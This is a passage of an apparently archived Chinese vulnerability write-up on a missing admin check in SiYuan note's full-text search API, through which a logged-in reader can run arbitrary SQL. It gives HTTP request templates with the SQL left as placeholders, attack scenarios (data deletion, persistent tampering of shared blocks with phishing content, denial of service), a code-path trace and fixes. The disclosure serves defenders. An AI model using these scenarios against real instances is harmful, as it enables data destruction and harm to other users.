 最终调用的是 sql.SelectBlocksRawStmt  
，其核心逻辑为：  
```
•优先尝试用 sqlparser.Parse(stmt) 解析 SQL；
•若解析失败（err != nil），则直接调用 selectBlocksRawStmt(stmt, limit)，内部对 stmt 原样调用底层query(stmt)
•对于解析成功但 AST 类型不是 SELECT/UNION 的情况，则直接 return（不执行）。
```  
  
结合这一逻辑，可以得出结论：  
- 若攻击者构造一条在 SQLite 中合法可执行，但当前 sqlparser  
 无法正确解析的 SQL 语句（例如使用特定方言/语法特性），就会触发"解析失败 → 降级直接执行"的路径；  
  
- 在该路径下，即使语句是 DELETE/UPDATE/INSERT/DROP  
 等写操作，底层数据库仍会实际执行，只是由于结果集无法映射为 Block  
 结构，接口可能返回空数组或不含数据。  
  
HTTP 流量示例（结构模板）  
```
POST /api/search/fullTextSearchBlock HTTP/1.1
Host: <目标主机>:<端口>
Content-Type: application/json
Cookie: siyuan=<普通用户Session>

{
    "method": 2,
    "query": "<利用 SQLite 支持但当前 sqlparser 难以解析的写操作 SQL，用于在测试环境中对测试表/测试记录做最小破坏验证>",
    "page": 1,
    "pageSize": 10
}
```  
- 攻击者不再只是"理论上能写"，而是可以在一定条件下实际删改任意表中的记录、结构甚至整表；  
  
- 这类写操作难以从接口返回中直接感知，容易在无声无息中完成数据破坏或后门植入。  
  
### 2.6 场景 F：持久化篡改与二次受害（影响其他用户）  
  
在确认写操作可行后，攻击者可以针对 blocks  
 表本身发起更具"传播性"的篡改。例如：  
```
//我测没有成功，可能疏忽哪里了
•通过任意 SQL 改写指定文档、指定块的 content / memo / alias 等字段，使其加入恶意内容（诱导链接、伪造提示信息等）；
•或修改块的元数据（如路径、标签、名称），干扰后续正常使用与检索。
```  
  
由于 blocks  
 是前端渲染的核心数据源，上述篡改将具备以下特征：  
- •  
在后续任意访问该文档/块的场景中被呈现；  
  
- 对所有拥有访问权限的用户可见，而不仅限于当前用户。  
  
HTTP 流量示例  
```
POST /api/search/fullTextSearchBlock HTTP/1.1
Host: <目标主机>:<端口>
Content-Type: application/json
Cookie: siyuan=<普通用户Session>

{
    "method": 2,
    "query": "<针对 blocks 表的 UPDATE/INSERT 等写操作，用于在测试环境中对某个测试文档块内容进行特征化改写>",
    "page": 1,
    "pageSize": 10
}
```  
  
可能的建议：  
```
•在测试环境创建一篇"测试文档"，记录其某个块的 id；
•使用 SQL 模式对该块的内容或元数据做"打标签式"改写（例如增加明显的测试标记字符串）；
•使用：
  •同一账号；
  •另一个普通账号；
  •如有，公开访问码访问； 分别打开该文档，确认所有访问路径下都呈现了改写后的内容。
```  
- 攻击者可以对现有文档进行持久化篡改，影响范围覆盖所有合法访问者，形成典型的"二次受害"；  
  
- 若篡改内容包含钓鱼链接、伪造指引等，将进一步放大社会工程学攻击成功率；  
  
- 对于依赖笔记内容进行自动化处理/同步的场景，还可能引入下游系统的风险。  
  
### 2.7 场景 G：复杂查询导致的性能退化与拒绝服务  
- 如果你只想增加危害，可以尝试DOS：  
  
```
•利用 SQL 模式构造高复杂度查询（大范围全表扫描、多表 JOIN、大量模糊匹配等），在未做资源/超时限制的情况下，可能显著拉高 CPU/IO/内存占用；
•即使不删库，只通过不断触发该接口即可对服务形成"慢性拒绝服务"攻击；
•可通过记录接口响应时间、服务器日志中的 SQL 耗时等指标来给出客观证据。
```  
  
2.3-  
复现流量特征 (PCAP)  
- 获取认证后进行SQL查询  
  
  
- INSERT操作  
  
  
- 查询成功，不过没在WEB找到(另外响应体是正常的，我这看的是TCP流量，应该是HTTP)  
  
  
##   
  
  
0x3 漏洞原理分析  
  
3.1-  
 [路由守卫] 被遗忘的关卡：当搜索遇上 SQL  
  
我这边追踪起点是Web框架的路由注册文件。在  
SiYuan  
的架构中  
，  
API  
接口的安全性很大程度上依赖于中间件链  
Middleware Chain  
的挂载。  
  
首先，定位到 kernel/api/router.go  
。在这里，可以看到了两个看似功能相似，但不同的接口定义：  
- 受保护的 SQL 查询接口 (基准线)：  
  
```
// kernel/api/router.go Line 177
ginServer.Handle("POST", "/api/query/sql", model.CheckAuth, model.CheckAdminRole, model.CheckReadonly, SQL)
```  
- 要访问此接口，请求必须依次通过  
三道关卡  
：  
  
```
•CheckAuth: 确认用户已登录。
•CheckAdminRole: 关键！ 强制要求用户必须是管理员。
•CheckReadonly: 确保当前不是只读模式（防止写操作）。
•只有同时满足这三个条件，SQL 函数才会被执行。
```  
- 失守的搜索接口 (漏洞点)：  
  
```
// kernel/api/router.go Line 188
ginServer.Handle("POST", "/api/search/fullTextSearchBlock", model.CheckAuth, fullTextSearchBlock)
```  
- 这里出现了很经典的"防御缺口"。可能觉得这只是一个"搜索"功能，因此只挂载了CheckAuth  
。  
  
- 不过，往往都有是开发的疏忽导致意想不到的结果，忽略了这个搜索功能，只要用户登录（哪怕是  
Reader  
角色），就能直入调用fullTextSearchBlock  
函数。  
  
- 这是第一道防线的崩塌：权限校验的粒度与内部功能的危险程度严重不匹配。  
  
3.2-  
 [逻辑黑洞] 危险的"方法"：信任边界的彻底瓦解  
  
  
进fullTextSearchBlock  
函数 (kernel/api/search.go  
) 后，我们继续追踪数据流向。代码解析了前端传来的参数，其中关注到这method  
字段。  
```
// kernel/api/search.go Line 389-411
func fullTextSearchBlock(c *gin.Context) {
    // ... 参数解析 ...
    page, pageSize, query, paths, boxes, types, method, orderBy, groupBy := parseSearchBlockArgs(arg)


    // 核心调用：将用户控制的 method 和 query 直接传入模型层
    blocks, matchedBlockCount, matchedRootCount, pageCount, docMode :=
        model.FullTextSearchBlock(query, boxes, paths, types, method, orderBy, groupBy, page, pageSize)
    // ...

}
```  
  
小知识课堂：  
  
注意函数名前面的model.  
前缀。在  
Go  
语言中，这表示调用的是名为model  
 的**包（Package）**  
中的函数，被调用的函数名是 FullTextSearchBlock  
核心逻辑就是 model  
 包里（PS：**IDE**  
可以直接：鼠标按住 Ctrl  
 (或 Cmd  
) 点击 model.FullTextSearchBlock  
跳转）  
  
接着，我们深入到kernel/model/search.go  
中的FullTextSearchBlock  
实现。在这里，逻辑发生了分叉：  
```
// kernel/model/search.go Line 1205-1206
switch method {
case 0, 1:
    // 正常的全文检索逻辑，安全
    blocks = searchByKeyword(...) 
case 2: 
    // 当 method=2 时，直接进入 SQL 执行模式
    blocks, matchedBlockCount, matchedRootCount = searchBySQL(query, beforeLen, page, pageSize)
}
```  
- 这里的case 2  
是整个漏洞的逻辑核心。  
  
- 为了实现某种高级自定义搜索功能，允许传入原始  
SQL  
。但是，在这个分支内部，没有任何关于"当前用户是否有权执行  
SQL  
"的二次检查。  
  
- 盲目地信任了上游路由传来的请求，认为既然能进到这个函数，就是安全的。  
  
### 3.3 [执行深渊] 裸奔的查询器：从字符串到数据库指令  
  
最后，我们来到了漏洞爆发的终点——searchBySQL  
函数 (kernel/model/search.go  
) 及其调用的底层驱动。  
```
// kernel/model/search.go Line 1460-1462
func searchBySQL(stmt string, beforeLen, page, pageSize int) (ret []*Block, ...) {
    stmt = strings.TrimSpace(stmt)
    // 直接将用户输入的 stmt 传递给底层执行器
    blocks := sql.SelectBlocksRawStmt(stmt, page, pageSize)
    // ...
}
```  
- 继续追踪到kernel/sql/block_query.go  
：  
  
```
109110111112113114115116117118119120121122123124
// kernel/sql/block_query.go Line 566-569
func SelectBlocksRawStmt(stmt string, page, limit int) (ret []*Block) {
    parsedStmt, err := sqlparser.Parse(stmt)
    if err != nil {
        // 解析失败？没关系，降级处理，直接执行原始语句！
        return selectBlocksRawStmt(stmt, limit) 
    }
    // ... (即使解析成功，后续逻辑也未做严格的只读限制)
}

// kernel/sql/block_query.go Line 713-714
func selectBlocksRawStmt(stmt string, limit int) (ret []*Block) {
    // 【最终爆发点】调用 Go 标准库 db.Query，执行任意 SQL
    rows, err := query(stmt) 
    // ...
}
```  
- 在kernel/sql/database.go  
中，query  
函数仅仅是Godatabase/sql  
 包的一层薄封装：  
  
```
// kernel/sql/database.go Line 1327-1337
func query(query string, args ...interface{}) (*sql.Rows, error) {
    // ...
    return db.Query(query, args...) // 这里是 SQLite 执行的绝对入口
}
```  
  
至此，链路完全打通  
- 输入无过滤  
：用户的query  
 参数未经过任何白名单校验。   
  
- 解析可绕过  
：即使有sqlparser  
，代码逻辑在解析失败时选择了"降级执行"，这让攻击者可以通过构造特殊语法绕过解析检查。   
  
- 执行无限制  
：最终调用的db.Query  
是通用的  
SQL  
执行器，它不区分SELECT  
还是DROP  
。  
  
在   
SQLite  
中，db.Query  
甚至可以执行 DELETE和UPDATE  
（尽管通常推荐用 Exec  
，但在某些驱动实现或特定上下文中，副作用依然会发生，或者攻击者利用db.Exec  
的类似调用路径）。  
  
完整攻击链路总结：  
```
A[攻击者: 携带Token 角色] -->|1. POST /api/search... method=2| B(路由层: router.go)
B -->|2. 缺失 CheckAdminRole | C{逻辑层: search.go}
C -->|3. switch case 2 | D[函数: searchBySQL]
D -->|4. 透传原始 SQL | E[驱动层: block_query.go]
E -->|5. 降级/直接执行 | F((SQLite 数据库))
F -->|6. 执行 DELETE/DROP | G[ 数据毁灭/泄露]
```  
  
  
0x4 修复建议  
  
**1、升级最新版本**  
：  
将组件升级最新版本  
```
https://github.com/siyuan-note/siyuan
```  
  
2、临时防护措施  
：  
- 反向代理拦截  
：  
在  
Nginx/Apache  
层直接禁止访问该特定接口  
  
  
- 网络隔离  
：  
确保思源笔记实例仅监听  
127.0.0.1  
，严禁暴露在公网或非受信局域网。  
  
/**发芽了发芽了**/  
  
  
  
  
**免责声明**  
：本文仅用于安全研究目的，未经授权不得用于非法渗透测试活动。  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
